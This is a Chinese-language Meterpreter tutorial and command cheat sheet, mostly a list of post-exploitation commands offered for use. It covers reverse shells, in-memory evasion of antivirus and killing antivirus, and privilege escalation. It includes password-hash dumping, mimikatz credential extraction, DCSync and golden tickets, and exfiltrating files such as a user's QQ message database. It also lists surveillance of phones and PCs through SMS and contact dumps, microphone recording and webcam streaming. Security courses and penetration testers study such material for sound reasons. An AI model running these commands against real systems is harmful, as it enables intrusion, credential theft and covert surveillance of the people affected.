

# 一、 Meterpreter是什么

Meterpreter是Metasploit框架中的一个利器，作为漏洞溢出后的攻击载荷使用，攻击载荷在触发漏洞后会返回一个由我们控制的通道，可用于远程执行命令!
Metasploit提供了各个主流平台的Meterpreter版本，包括Windows、Linux，同时支持x86、x64平台，另外，Meterpreter还提供了基于PHP和Java语言的实现。Meterpreter的工作模式是纯内存的，好处是启动隐藏，很难被杀毒软件监测到。不需要访问目标主机磁盘，所以也没什么入侵的痕迹。除上述外，Meterpreter还支持Ruby脚本形式的扩展。所以Ruby语言还很有必要了解下。

# 二、Meterpreter中常用的反弹类型

1.reverse_tcp
这是一个基于TCP的反向链接反弹shell, 使用起来很稳定

# 三、Meterpreter的常用命令

## 1.基本命令

help# 查看Meterpreter帮助

background#返回，把meterpreter后台挂起
bgkill# 杀死一个 meterpreter 脚本
bglist#提供所有正在运行的后台脚本的列表
bgrun#作为一个后台线程运行脚本
channel#显示活动频道
sessions -i number # 与会话进行交互，number表示第n个session,使用session -i 连接到指定序号的meterpreter会话已继续利用
sesssions -k  number #与会话进行交互
close# 关闭通道
exit# 终止 meterpreter 会话
quit# 终止 meterpreter 会话
interact id #切换进一个信道
 run#执行一个已有的模块，这里要说的是输入run后按两下tab，会列出所有的已有的脚本，常用的有autoroute,hashdump,arp_scanner,multi_meter_inject等
 irb# 进入 Ruby 脚本模式
 read# 从通道读取数据write# 将数据写入到一个通道
 run和bgrun# 前台和后台执行以后它选定的 meterpreter 脚本
use# 加载 meterpreter 的扩展
load/use#加载模块
 Resource#执行一个已有的rc脚本

### 简要使用流程

比如使用background返回后台，但是可以使用sessions查看后台会话。

	

也可重新切换回这个session.

	

## 2  常用命令

### 2.1 针对安卓手机的一些命令

获取手机通讯录： dump_contacts

获取短信记录：dump_sms

控制实验手机发短信：send_sms -d 15330252525 -t
"hello"

获取实验手机GPS定位信息：geolocate

获取实验手机Wi-Fi定位信息：wlan_geolocate

控制实验手机录音：record_mic
-d  5

获取实验手机相机设备：webcam_list

控制实验手机拍照 ：webcam_snap

直播实验手机摄像头：webcam_stream

### 2.2 针对Windows的一些命令

查看进程：ps

查看当前进程号：getpid

查看系统信息：sysinfo

查看目标机是否为虚拟机：run
post/windows/gather/checkvm

查看完整网络设置：route

查看当前权限：getuid

自动提权：getsystem

关闭杀毒软件：run post/windows/manage/killav

启动远程桌面协议：run post/windows/manage/enable_rdp

列举当前登录的用户：run post/windows/gather/enum_logged_on_users

查看当前应用程序：run post/windows/gather/enum_applications

抓取目标机的屏幕截图：load espia ； screengrab

获取相机设备：webcam_list

控制拍照 ：webcam_snap

直播摄像头：webcam_stream

控制录音：record_mic

查看当前处于目标机的那个目录：pwd

查看当前目录：getlwd

导出当前用户密码哈希  run hashdump

用户名：SID：LM哈希：NTLM哈希:::

也可以使用下面这个命令导出 权限更高   run windows/gather/smart_hashdump

抓取自动登录的用户名和密码  run windows/gather/credentials/windows_autologin

直接获取明文密码（注意这个功能需要获取系统权限  获取系统权限需要输入getsystem）

首选终端输入  load kiwi    加载kiwi

creds_all：列举所有凭据
creds_kerberos：列举所有kerberos凭据
creds_msv：列举所有msv凭据
creds_ssp：列举所有ssp凭据
creds_tspkg：列举所有tspkg凭据
creds_wdigest：列举所有wdigest凭据
dcsync：通过DCSync检索用户帐户信息
dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create：创建黄金票据
kerberos_ticket_list：列举kerberos票据
kerberos_ticket_purge：清除kerberos票据
kerberos_ticket_use：使用kerberos票据
kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
lsa_dump_sam：dump出lsa的SAM
lsa_dump_secrets：dump出lsa的密文
password_change：修改密码
wifi_list：列出当前用户的wifi配置文件
wifi_list_shared：列出共享wifi配置文件/编码

## 3.文件系统命令

cat c:\boot.ini#查看文件内容,文件必须存在
del c:\boot.ini #删除指定的文件
upload /root/Desktop/netcat.exe c:\ # 上传文件到目标机主上，如upload  setup.exe C:\\windows\\system32
download nimeia.txt /root/Desktop/   # 下载文件到本机上如：download C:\\boot.ini /root/或者download C:\\"ProgramFiles"\\Tencent\\QQ\\Users\\295******125\\Msg2.0.db /root/
edit c:\boot.ini  # 编辑文件
getlwd#打印本地目录
getwd#打印工作目录
lcd#更改本地目录
ls#列出在当前目录中的文件列表
lpwd#打印本地目录
pwd#输出工作目录
cd c:\\ #进入目录文件下
rm file #删除文件
mkdir dier #在受害者系统上的创建目录
rmdir#受害者系统上删除目录
dir#列出目标主机的文件和文件夹信息
mv#修改目标主机上的文件名
search -d d:\\www -f web.config #search 文件，如search  -d c:\\  -f*.doc
meterpreter > search -f autoexec.bat  #搜索文件
meterpreter > search -f sea*.bat c:\\xamp\\
enumdesktops     #用户登录数